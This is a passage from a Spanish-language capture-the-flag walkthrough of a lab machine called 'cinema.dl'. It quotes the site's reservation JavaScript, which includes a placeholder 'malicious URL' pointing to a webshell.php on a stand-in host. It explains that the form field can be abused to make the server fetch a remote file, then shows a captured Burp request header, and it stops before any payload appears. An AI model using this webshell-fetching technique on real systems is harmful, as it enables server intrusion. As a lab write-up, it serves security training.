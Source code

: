 ```
Progress: 882184 / 882188 (100.00%)
```
ahora intentamos clicar alguna pelicula para ver como se comporta la página y solo deja acceder a una
"El tiempo que tenemos" y nos lleva a una especie de reserva.
```
http://cinema.dl/reserva.html
```
miramos el códigofuente con ctrl+u y vemos esto:
```
 reserveButton.addEventListener('click', (e) => {
                e.preventDefault();  // Prevent default action for confirmation

                if (selectedSeats.length > 0) {
                    // Llenar los campos del formulario en el popup con los datos de la reserva
                    const problemUrl = 'http://tusitio.com/uploads/webshell.php'; // URL maliciosa
                    document.getElementById('problem_url').value = problemUrl;

                    // Aquí puedes agregar más información como el nombre o correo si es necesario
                    // Ejemplo (se puede modificar según lo que desees pasar):
                    document.getElementById('name').value = "Juan Pérez"; 
                    document.getElementById('email').value = "juanperez@example.com";
                    document.getElementById('phone').value = "+34 600 123 456";

                    popup.style.display = 'flex'; // Mostrar el popup
                } else {
                    alert('Por favor, selecciona al menos una butaca para reservar.');
                }
```

esta parte es muy interesante:
```
 // Llenar los campos del formulario en el popup con los datos de la reserva
                    const problemUrl = 'http://tusitio.com/uploads/webshell.php'; // URL maliciosa
```
hay una parte del formulario donde podemos inyectar una url maliciosa para que descargue algo de ella

hacemos una reserva y con burpsuite capturamos la petición

```
POST /reservation.php HTTP/1.1

Host: cinema.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 123

Origin: http://cinema.dl

DNT: 1

Connection: close

Referer: http://cinema.dl/reserva.html

Upgrade-Insecure-Requests: 1
```